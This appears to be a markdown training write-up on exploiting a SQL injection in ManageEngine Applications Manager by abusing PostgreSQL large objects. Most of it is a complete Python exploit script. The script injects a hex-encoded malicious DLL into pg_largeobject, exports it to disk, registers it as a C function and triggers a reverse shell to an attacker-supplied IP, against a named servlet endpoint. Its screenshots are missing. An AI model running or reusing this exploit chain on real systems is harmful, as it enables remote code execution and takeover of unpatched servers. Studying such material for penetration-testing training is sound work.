







## Local Network Limitation
Even though we did manage to get a shell on the ManageEngine server, we managed to get it by utilizing a share on the local network.
An alternative to the remote Samba extension loading is to find a method to transfer the malicious DLL to the remote server directly through an SQL query.

## PostgreSQL Large Objects
 PostgreSQL exposes a structure called _large object_, which is used for storing data that would be difficult to handle in its entirety.
 The advantage of large objects lies in the fact that the data they hold can be exported back to the file system as an identical copy of the original imported file.

A large object is created by calling the _lo_import_ function while providing it the path to the file we want to import:



We import the win.ini file to the database and when we list it, we get a loid, of the large object.
This is an integral value to reference while exporting a large object.
It may look arbitrary, however we can control the loid by passing it as a parameter of the lo_import function:



Now, to export the file on to the remote file system, we need the know where large objects are stored in the database.
The large objects are stored in the pg_largeobject table.
Apart from the loid, in the pg_largeobject table, we also need to notice a critical piece of information i.e. the pageno field which defines the page number.
When large objects are imported into a PostgreSQL database, they are split into 2KB chunks, which are then stored individually in the _pg_largeobject_ table.

Moving on, if we choose to see what data is inside our large object entry right after import, we can see it using the data parameter:



We can update this entry, for instance, using the hex value of a string and providing it's loid and pageno value:



Finally, we can export these values to the file system using the lo_import function of PostgreSQL.



## Getting Reverse Shell
We are gonna take the following course of action to get a reverse shell using the large object feature of PostgreSQL:
1. Create a malicious DLL file containing shellcode.
2. Inject a query that creates a large object from an arbitrary remote file(like win.ini).
3. Inject a query that updates page 0 of the newly created large object with the first 2kb of our malicious DLL.
4. Inject more similar queries that insert additional pages of the pg_largeobject table to contain the rest of the malicious DLL file.
5. Inject a query that exports the DLL file to remote file system from the database.
6. Inject a query that creates a custom function in the PostgreSQL database, using the DLL.
7. Inject a query that executes the newly created UDF.

We will use the following python script to do all of that:

```python
import requests, sys, urllib, string, random, time
requests.packages.urllib3.disable_warnings()

# encoded UDF rev_shell dll
udf = 'hex encoded dll file'
loid = 1337

def log(msg):
   print msg

def make_request(url, sql):
   log("[*] Executing query: %s" % sql[0:80])
   r = requests.get( url % sql, verify=False)
   return r

def delete_lo(url, loid):
   log("[+] Deleting existing LO...")
   sql = "SELECT lo_unlink(%d)" % loid
   make_request(url, sql)

def create_lo(url, loid):
   log("[+] Creating LO for UDF injection...")
   sql = "SELECT lo_import($$C:\\windows\\win.ini$$,%d)" % loid
   make_request(url, sql)
   
def inject_udf(url, loid):
   log("[+] Injecting payload of length %d into LO..." % len(udf))
   for i in range(0,((len(udf)-1)/4096)+1):
         udf_chunk = udf[i*4096:(i+1)*4096]
         if i == 0:
             sql = "UPDATE PG_LARGEOBJECT SET data=decode($$%s$$, $$hex$$) where loid=%d and pageno=%d" % (udf_chunk, loid, i)
         else:
             sql = "INSERT INTO PG_LARGEOBJECT (loid, pageno, data) VALUES (%d, %d, decode($$%s$$, $$hex$$))" % (loid, i, udf_chunk)
         make_request(url, sql)

def export_udf(url, loid):
   log("[+] Exporting UDF library to filesystem...")
   sql = "SELECT lo_export(%d, $$C:\\Users\\Public\\rev_shell.dll$$)" % loid
   make_request(url, sql)
   
def create_udf_func(url):
   log("[+] Creating function...")
   sql = "create or replace function rev_shell(text, integer) returns VOID as $$C:\\Users\\Public\\rev_shell.dll$$, $$connect_back$$ language C strict"
   make_request(url, sql)

def trigger_udf(url, ip, port):
   log("[+] Launching reverse shell...")
   sql = "select rev_shell($$%s$$, %d)" % (ip, int(port))
   make_request(url, sql)
   
if __name__ == '__main__':
   try:
       server = sys.argv[1].strip()
       attacker = sys.argv[2].strip()
       port = sys.argv[3].strip()
   except IndexError:
       print "[-] Usage: %s serverIP:port attackerIP port" % sys.argv[0]
       sys.exit()
       
   sqli_url  = "https://"+server+"/servlet/AMUserResourcesSyncServlet?ForMasRange=1&userId=1;%s;--" 
   delete_lo(sqli_url, loid)   
   create_lo(sqli_url, loid)
   inject_udf(sqli_url, loid)
   export_udf(sqli_url, loid)
   create_udf_func(sqli_url)
   trigger_udf(sqli_url, attacker, port)
```

Executing the script:



We get the shell:
